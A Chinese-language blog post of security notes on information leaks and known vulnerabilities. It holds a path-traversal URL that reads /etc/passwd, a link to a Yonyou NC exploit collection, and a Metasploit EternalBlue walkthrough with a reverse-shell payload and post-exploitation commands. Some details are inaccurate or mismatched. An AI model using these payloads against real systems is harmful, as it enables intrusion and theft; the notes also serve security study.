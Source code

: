 ```yaml
---
layout: post
title:  安全信息泄露之未授权访问
categories: 安全知识
description:  zookeeper 未授权
keywords: 未授权
---
```


# 未授权类

# 信息泄露

## JetBrains .idea 项目路径未删除

例如：`https://IP地址/.idea/workspace.xml`

漏洞危害： 

它允许恶意黑客收集相关信息，这些信息可以在攻击生命周期的后期使用，以便在无法访问这些信息的情况下获得更多。

修复建议：

删除该路径。

# CVE-2019-0708 BlueKeep远程桌面代码执行漏洞


漏洞详情：

当未经验证的攻击者使用RDP连接到目标系统并发送精心编制的请求时，远程桌面服务（以前称为终端服务）中存在远程代码执行漏洞。此漏洞是预验证漏洞，不需要用户交互。成功利用此漏洞的攻击者可以在目标系统上执行任意代码。然后，攻击者可以安装程序；查看、更改或删除数据；或者创建具有完全用户权限的新帐户。
要利用此漏洞，攻击者需要通过RDP向目标系统远程桌面服务发送精心编制的请求。

漏洞危害：

成功利用此漏洞的攻击者可以在目标系统上执行任意代码。

# CVE-2021-21985 VMware vCenter Server 远程代码执行

# Apache 任意文件读取 (CVE-2020-17519)

例如：
```
http://<IP地址>:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

# 用友nc任意文件上传漏洞

1. [用友NC-OA漏洞合集](https://github.com/asdasdqkq1/yonyou-nc-exp)
2. Liquan 连接木马


# ms17-010（Eternal blue永恒之蓝）

使用 msf 工具攻击

```
msfconsole 
# options 和 payload 设置如下
msf >use exploit/windows/smb/ms17_010_eternalblue (加载攻击模块)
msf > set RHOST 192.168.92.129（被攻击机IP）
msf >set LHOST 192.168.92.132（设置本地IP）
msf >set LPORT 4444(设置连接端口)
msf >set payload windows/x64/meterpreter/reverse_tcp（配置回链方式）

msf >show options(查看配置相关信息)
msf >run（或者exploit,开始攻击）

四、    攻击成功！查看系统信息
meterpreter>sysinfo 爆出系统信息
meterpreter>screenshot 截屏，截屏后的图片存放在/root/中
meterpreter>net user 查看用户密码

```
